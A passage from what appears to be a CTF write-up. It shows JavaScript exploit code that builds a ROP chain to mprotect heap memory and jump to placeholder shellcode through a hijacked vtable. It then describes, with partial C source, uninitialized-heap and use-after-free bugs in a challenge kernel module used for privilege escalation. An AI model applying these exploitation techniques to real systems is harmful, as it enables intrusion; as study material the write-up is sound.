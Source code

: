 ```javascript=
        /* Our ROP chain */
        await B[2].write(itof(pop1), 0); // ROP will start from here
        await B[2].write(itof(xchg_rax_rsp), 1); // vtable will jump to here
        await B[2].write(itof(pop_rax), 2); // pop rax
        await B[2].write(itof(10n), 3); // rax = 10 ( mprotect's syscall number )
        await B[2].write(itof(pop_rdx), 4); // pop rdx
        await B[2].write(itof(7n), 5); // rdx = 7 ( PROT = rwx )
        await B[2].write(itof(pop_rsi), 6); // pop rsi
        await B[2].write(itof(0x2000n), 7); // rsi = 0x2000
        await B[2].write(itof(pop_rdi), 8); // pop rdi
        await B[2].write(itof((heap1 & (~0xfffn))), 9); // rdi = heap1 & (~0xfff)
        await B[2].write(itof(syscall_ret), 10); // do syscall ( mprotect(heap1 & ~0xfff, 0x2000, 7) )
        await B[2].write(itof(pop_rax), 11); // pop rax
        await B[2].write(itof(heap1+0x100n), 12); // rax = heap1 + 0x100
        await B[2].write(itof(jmp_rax), 13); // jmp to RAX ( B[2]->numbers_[32], our shellcode )

        /* Our shellcode */
        await B[2].write(itof(0xfeebn), 32); // infinite loop
        //await B[2].write(itof(shellcode in BigInt), 33); 
        //await B[2].write(itof(shellcode in BigInt), 34); 
        //.............. 

        /* Change B[2]'s vtable and trigger destructor, jump to our ROP chain*/
        await B[0].write(itof(heap1), 4); // change B[2]'s vtable
        await B[2].ptr.reset(); // call [rax+8] == xchg rax, rsp...

        print("Done"); // Should never reach here
    })();
}

```

#### Local Privilege Escalation ( kernel )

In this part of challenge, it installs a kernel module which will expose a device at `/dev/ctf`. It implements several functions: `ctf_read`, `ctf_write`, `ctf_ioctl` and `ctf_open`. We can use `ctf_ioctl` to allocate a kernel heap buffer for `ctf_read` and `ctf_write`'s usage. `ctf_ioctl` also allow us to free a kernel heap buffer. 

There are two vulnerabilities we used for achieve local privilege escalation. Both are in `ctf_ioctl`. An uninitialized heap is used for allocating the buffer. Because it didn't zero out the buffer, we can use it for address leaking. Another vulnerability is use-after-free. When we free a kernel heap buffer, it didn't set its pointer to NULL, making it still accessible with `ctf_read` and `ctf_write`.


```C
struct ctf_data {
  char *mem;
  size_t size;
};

static ssize_t ctf_ioctl(struct file *f, unsigned int cmd, unsigned long arg)
{
  struct ctf_data *data = f->private_data;
  char *mem;

  switch(cmd) {
  case 1337:
    if (arg > 2000) {
      return -EINVAL;
    }

    mem = kmalloc(arg, GFP_KERNEL);
```